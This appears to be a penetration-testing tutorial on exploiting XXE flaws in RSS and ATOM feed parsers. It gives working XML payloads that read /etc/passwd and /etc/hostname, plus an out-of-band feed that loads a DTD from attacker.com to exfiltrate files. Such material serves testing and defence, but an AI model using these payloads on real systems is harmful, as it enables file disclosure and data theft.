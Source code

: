 ```yaml
---
title: Exploiting XXE in RSS and ATOM Feeds
description: Learn to exploit XXE vulnerabilities in RSS/ATOM feeds for sensitive
  data disclosure.
keywords:
- XXE exploitation
- RSS feed
- ATOM feed
- XML External Entities
- data disclosure
- feed parser vulnerabilities
- sensitive data
---
```


# XXE Inside RSS/ATOM Feeds

## Context

The objective of this article is to demonstrate the exploitation of XML External Entity (XXE) vulnerabilities within RSS and ATOM feed files. By leveraging these vulnerabilities, an attacker can achieve sensitive data disclosure or remote file retrieval through feed-consuming applications. It is assumed that the reader is already familiar with XML structure and parsing, the RSS and ATOM feed formats, and general concepts surrounding XML External Entity (XXE) exploitation.

## Theory

### RSS/ATOM Feeds as XML Attack Surfaces

RSS and ATOM feeds are XML-based syndication formats that are widely used for content distribution. Feed parsers, which are responsible for processing these external XML inputs, often lack adequate restrictions on entity resolution. This can lead to vulnerabilities in applications that consume these feeds. When feed consumers are improperly configured, they may inadvertently resolve external entities. This can potentially expose local files or internal resources.

### Attack Vectors in Feed Consumption Workflows

The attack sequence typically involves an attacker crafting a malicious RSS or ATOM feed embedded with an XXE payload. Once the victim application fetches and parses this feed, the entity is resolved, thus opening the door to exploitation. The data flow goes as follows: a malicious feed is created, which is then captured by a feed aggregator or news reader. An XML parser processes the data, resolving entities, and ultimately leading to data exfiltration. Applications generally operate on a trust assumption that external feeds are well-formed and benign, making them susceptible to XXE vulnerabilities.

### Common Targets and Impact

Typical targets for XXE attacks in this realm include feed aggregators, news readers, and backend importers. If successful, such attacks can result in the disclosure of sensitive files, Server-Side Request Forgery (SSRF), or even remote code execution, depending on the parser's configuration.

## Practice

### Injecting XXE Payload into RSS Feed

To exploit an XXE vulnerability within an RSS feed:

1. Create a malicious RSS feed with an external entity referencing a sensitive file:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE rss [
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >
    ]>
    <rss version="2.0">
      <channel>
        <title>&xxe;</title>
        <link>http://example.com/</link>
        <description>Malicious RSS Feed</description>
      </channel>
    </rss>
    ```

2. Host the malicious feed on a web server that is accessible to the target application.
3. Submit or import the feed URL into the targeted feed aggregator or news reader.
4. Monitor the application to capture exfiltrated file contents or to detect error messages containing sensitive data.

When executed correctly, this approach can lead to sensitive file contents, such as `/etc/passwd`, being disclosed through feed parsing.

### Injecting XXE Payload into ATOM Feed

The steps for injecting an XXE payload into an ATOM feed are similar:

1. Craft a malicious ATOM feed with an external entity referencing a local file:
    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE feed [
      <!ENTITY xxe SYSTEM "file:///etc/hostname" >
    ]>
    <feed xmlns="http://www.w3.org/2005/Atom">
      <title>&xxe;</title>
      <link href="http://example.com/"/>
      <updated>2024-06-01T12:00:00Z</updated>
      <author><name>Attacker</name></author>
      <id>urn:uuid:1234</id>
    </feed>
    ```

2. Serve this ATOM feed from a location that the target application can access.
3. Trigger the target application to fetch and parse the ATOM feed by submitting the feed URL.
4. Look for file content leakage in the application's output or logs.

Successfully performed, this method exposes local file contents via ATOM feed parsing.

### Out-of-Band (OOB) XXE via RSS/ATOM Feed

This technique involves exfiltrating data to an attacker-controlled server:

1. Construct a malicious RSS feed using a remote DTD to exfiltrate file contents:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE rss [
      <!ENTITY % file SYSTEM "file:///etc/hostname" >
      <!ENTITY % dtd SYSTEM "http://attacker.com/exfil.dtd" >
      %dtd;
    ]>
    <rss version="2.0">
      <channel>
        <title>OOB XXE</title>
        <link>http://example.com/</link>
        <description>OOB XXE Test</description>
      </channel>
    </rss>
    ```

2. Host `exfil.dtd` on your server to receive data:
    - Ensure your server is prepared to log or capture the incoming exfiltrated data.

3. Submit the feed to the target application.
4. Monitor your server for any incoming requests that contain exfiltrated data.

This approach enables the exfiltration of sensitive data to an external server through Out-of-Band XXE.

## Tools

- **Burp Suite**
- **curl**
- **Python HTTP server**